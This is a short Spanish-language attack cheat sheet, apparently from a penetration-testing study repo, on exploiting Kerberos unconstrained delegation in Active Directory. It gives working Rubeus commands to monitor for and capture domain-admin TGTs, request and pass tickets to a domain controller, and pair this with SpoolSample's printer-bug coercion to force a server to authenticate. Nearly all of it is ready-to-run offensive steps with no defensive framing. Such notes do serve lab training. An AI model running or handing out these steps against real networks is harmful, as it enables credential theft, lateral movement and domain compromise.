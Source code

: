 # Sobre computadoras

## Esperando la autenticación de un usuario privilegiado

Si logramos comprometer un servidor que tiene habilitada la Unconstrained delegation, y posteriormente un administrador de dominio inicia sesión, podremos extraer su TGT y usarlo para movernos lateralmente y comprometer otras máquinas, incluidos los controladores de dominio.

Rubeus es la herramienta ideal para este ataque. Como administrador local, Rubeus puede ejecutarse para supervisar los tickets almacenados. Si se encuentra un TGT en un ticket TGS, Rubeus nos lo mostrará.

### 1)Monitoreo de tickets
Ponemos a Rubeus en modo monitoreo esperando que los usuarios se conecten al servidor.

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Usamos el ticket para pediro otro ticket con otro servicio


    .\Rubeus.exe asktgs /ticket:<ticket> /service:<servicio>/dc01.INLANEFREIGHT.local /ptt

Si esto no funciona:

    .\Rubeus.exe renew /ticket:<ticket> /ptt

Ahora podemos aprovechar este ticket para realizar acciones en el dc01 como el usuario privilegiado.

## Aprovechando el error de impresora


Es muy similar a la anterior, simplemente que aprovechamos una falla en el MS-RPRN (Print system remote protocol) que puede obligar a un servidor a autenticarse frente a otro


Para esto utilizaremos la herramienta: **SpoolSample**:

    https://github.com/leechristensen/SpoolSample

### 1) Ponemos el rubeus en modo monitor:

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Corremos SpoolSample

    .\SpoolSample.exe <target> <our_server>

### 3) Conseguimos el ticket y continueamos con el ataque anterior.



